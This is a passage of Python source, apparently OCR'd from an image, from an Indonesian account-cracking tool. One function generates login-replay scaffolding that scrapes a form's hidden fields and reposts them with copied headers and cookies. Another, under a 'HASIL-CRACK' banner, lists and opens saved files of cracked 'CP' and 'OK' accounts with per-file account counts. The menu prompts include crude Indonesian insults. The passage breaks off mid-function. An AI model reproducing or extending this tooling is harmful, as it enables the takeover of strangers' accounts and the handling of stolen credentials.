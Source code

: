         print("url  = '%s'"%(url))
        print("requ = bs(requests.Session().get(url).content,'html.parser')")
        print('head = {')
        for x,y in zip(head.keys(),head.values()):
            print('    %s%s: %s'%(x,' '*(29-len(x)),y))
        print('    }')
        print('data = {')
        for x in data:
            try:
                if 'value' in str(x):
                    dp = 'name=' + re.search('name=(.*?)/>',str(x)).group(1)
                    fp = re.search('value="(.*?)"',str(dp)).group(1)
                    gp = dp.replace(fp,'(.*?)')
                    rs = ("re.search('%s',str(requ)).group(1)"%(gp))
                    print('    %s%s: %s,'%(x['name'],' '*(19-len(x['name'])),rs))
                elif 'name' in str(x):
                    print("    %s%s: '',"%(x['name'],' '*(19-len(x['name']))))
                else: continue
            except Exception as e: continue
        print('    }')
        print("cookie = requests.Session().cookies.get_dict()")
        print("next = '%s'"%(post))
        print("post = requests.Session().post(next,headers=head,data=data,cookies=cookie)")
#-----------------[ HASIL-CRACK ]-----------------#
def result():
	print('')
	print('='*51)
	print('1. Hasil CP Anda ')
	print('2. Hasil OK Anda ')
	print('0. Kembali	')
	print('='*51)
	kz = input('\n└─ Pilih : ')
	if kz in ['1','01']:
		try:vin = os.listdir('CP')
		except FileNotFoundError:
			print('➪ Filemu kagak ada ngen ')
			time.sleep(3)
			back()
		if len(vin)==0:
			print('➪ Anda Tidak Memiliki Hasil CP ')
			time.sleep(2)
			back()
		else:
			cih = 0
			lol = {}
			for isi in vin:
				try:hem = open('CP/'+isi,'r').readlines()
				except:continue
				cih+=1
				if cih<10:
					nom = '0'+str(cih)
					lol.update({str(cih):str(isi)})
					lol.update({nom:str(isi)})
					print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)
				else:
					lol.update({str(cih):str(isi)})
					print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)
			geeh = input('\n>> Pilih : ')
			try:geh = lol[geeh]
			except KeyError:
				print('>> Pilih Yang Bener Kontol ')
				exit()
			try:lin = open('CP/'+geh,'r').read().splitlines()
			except: